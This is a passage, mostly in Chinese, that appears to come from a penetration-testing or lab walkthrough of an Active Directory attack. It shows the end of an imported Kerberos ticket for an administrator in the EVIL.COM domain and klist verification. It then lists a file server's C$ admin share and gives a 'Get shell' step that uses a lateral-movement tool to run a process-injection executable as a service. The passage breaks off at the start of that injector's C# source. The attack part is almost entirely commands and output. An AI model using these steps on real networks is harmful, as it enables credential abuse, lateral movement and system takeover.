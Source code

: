 ```
      MTMxNzEzWqYRGA8yMDIxMDgyNzIzMTcxM1qnERgPMjAyMTA5MDMxMzE3MTNaqAobCEVWSUwuQ09NqRkw
      F6ADAgECoRAwDhsEY2lmcxsGZmlsZTAx
[+] Ticket successfully imported!

```

验证
```
PS C:\Users\Public\Downloads> klist
klist

Current LogonId is 0:0x3e7

Cached Tickets: (1)

#0>     Client: administrator @ EVIL.COM
        Server: cifs/file01 @ EVIL.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize 
        Start Time: 8/27/2021 6:17:13 (local)
        End Time:   8/27/2021 16:17:13 (local)
        Renew Time: 9/3/2021 6:17:13 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0 
        Kdc Called: 
PS C:\Users\Public\Downloads> ls \\file01\c$
ls \\file01\c$


    Directory: \\file01\c$


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        6/24/2020   1:07 AM                PerfLogs                                                              
d-r---        6/24/2020   7:24 AM                Program Files                                                         
d-----        6/24/2020   7:21 AM                Program Files (x86)                                                   
d-r---        6/24/2020   1:48 AM                Users                                                                 
d-----        6/24/2020   1:22 AM                Windows                 
```

### Get shell
使用lat.exe file01 SensorService c:\\process_inject.exe
其中Process_inject.exe
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;
using System.Net;
using System.Diagnostics;

namespace Inject
    {
        class Program
        {
```